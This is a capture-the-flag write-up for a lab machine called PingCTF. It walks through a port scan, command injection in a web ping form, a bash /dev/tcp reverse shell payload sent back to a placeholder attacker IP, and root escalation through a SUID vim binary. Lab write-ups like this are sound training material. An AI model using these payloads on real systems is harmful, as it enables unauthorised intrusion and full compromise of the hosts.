


# PingCTF

## Port Enumeration

We began by scanning the target with Nmap during the discovery phase. The following open port was identified:

```ruby
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

```ruby
┌──(root㉿kali)-[/home/kali]
└─# nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2  
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 64

```

## Exploring Web Page

Browsing to port 80, we discovered a Ping panel. It accepts an IP address as input, presumably to perform a system ping command. However, initial tests didn’t display any useful output.




To test for command injection, we attempted to append a simple command using a semicolon (;). For example:

```shell
127.0.0.1;whoami
```

This successfully executed and revealed that the web server was running as the `www-data` user.

## Initial Access
With command injection confirmed, we attempted to gain an interactive shell. Setting up a listener:

```shell
nc -lvnp 4444
```
We then executed a reverse shell payload via the vulnerable input:

```shell
127.0.0.1; bash -c 'bash -i >& /dev/tcp/TU_IP/4444 0>&1'
```

This provided a basic reverse shell. To improve usability, we stabilized the shell with a pseudo-TTY.

## Privileges escalation
The first attempt was to check sudo privileges, but sudo was not installed on the system. We then enumerated SUID binaries:

```shell
find / -type f -perm -4000 -ls 2>/dev/null
```
Among the results, /usr/bin/vim.basic stood out:
```shell
  1704323     72 -rwsr-xr-x   1 root     root        72792 May 30  2024 /usr/bin/chfn                                         
  1704390     76 -rwsr-xr-x   1 root     root        76248 May 30  2024 /usr/bin/gpasswd                                      
  1704449     52 -rwsr-xr-x   1 root     root        51584 Dec  5  2024 /usr/bin/mount                                        
  1704465     64 -rwsr-xr-x   1 root     root        64152 May 30  2024 /usr/bin/passwd                                       
  1704557     40 -rwsr-xr-x   1 root     root        39296 Dec  5  2024 /usr/bin/umount                                       
  1704329     44 -rwsr-xr-x   1 root     root        44760 May 30  2024 /usr/bin/chsh                                         
  1704531     56 -rwsr-xr-x   1 root     root        55680 Dec  5  2024 /usr/bin/su                                           
  1704454     40 -rwsr-xr-x   1 root     root        40664 May 30  2024 /usr/bin/newgrp                                       
  1722546   4032 -rwsr-xr-x   1 root     root      4126400 Apr  1 20:12 /usr/bin/vim.basic 
```

Using GTFOBins, we exploited vim to spawn a root shell:
```shell
/usr/bin/vim.basic -c ':py3 import os; os.execl("/bin/bash", "bash", "-pc", "reset; exec bash -p")'
```

This successfully escalated privileges to the root user.



